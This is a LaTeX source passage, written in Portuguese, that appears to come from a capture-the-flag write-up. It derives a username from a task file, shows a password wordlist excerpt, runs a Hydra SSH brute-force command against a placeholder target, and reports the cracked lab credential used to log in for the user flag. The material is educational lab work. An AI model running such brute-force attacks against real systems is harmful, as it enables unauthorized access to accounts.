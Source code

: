 \documentclass[12pt,a4paper]{article}
\begin{document}
\begin{lstlisting}[style=output,caption={Conteúdo de task.txt: assinatura revela o usuário.}]
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
\end{lstlisting}

O arquivo \texttt{locks.txt} contém 26 linhas de senhas candidatas --- ou seja,
uma \textbf{lista de senhas} (\emph{wordlist}) pronta para um ataque de força
bruta contra o usuário \texttt{lin}.

\begin{lstlisting}[style=output,caption={Trecho de locks.txt (lista de senhas candidatas).}]
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
...
RedDr4gonSynd1cat3      <-- senha valida
...
ReDSynd1ca7e
\end{lstlisting}

\subsection{Força bruta no SSH}
Com o usuário (\texttt{lin}) e a \emph{wordlist} (\texttt{locks.txt}), executa-se
um ataque de força bruta contra o SSH com o \emph{Hydra}.

\begin{lstlisting}[language=bash,caption={Força bruta de senha no SSH com Hydra.}]
hydra -l lin -P locks.txt ssh://<TARGET_IP>
\end{lstlisting}

O ataque descobre a senha válida do usuário \texttt{lin}:

\begin{lstlisting}[style=output,caption={Credencial descoberta pelo Hydra.}]
[22][ssh] host: <TARGET_IP>   login: lin   password: RedDr4gonSynd1cat3
\end{lstlisting}

\begin{becosemsaida}
\begin{itemize}[leftmargin=1.4em,itemsep=2pt,topsep=2pt]
  \item Os arquivos do FTP poderiam, à primeira vista, sugerir uma trilha
        relacionada ao serviço HTTP (porta 80). Entretanto, o conteúdo real de
        \texttt{task.txt} (usuário) e \texttt{locks.txt} (senhas) aponta
        diretamente para a força bruta no SSH --- o serviço web não é o vetor.
\end{itemize}
\end{becosemsaida}

\subsection{Acesso ao sistema e flag de usuário}
De posse da credencial \texttt{lin:RedDr4gonSynd1cat3}, autentica-se via SSH e
lê-se a \emph{flag} de usuário no diretório \emph{home}.
\end{document}
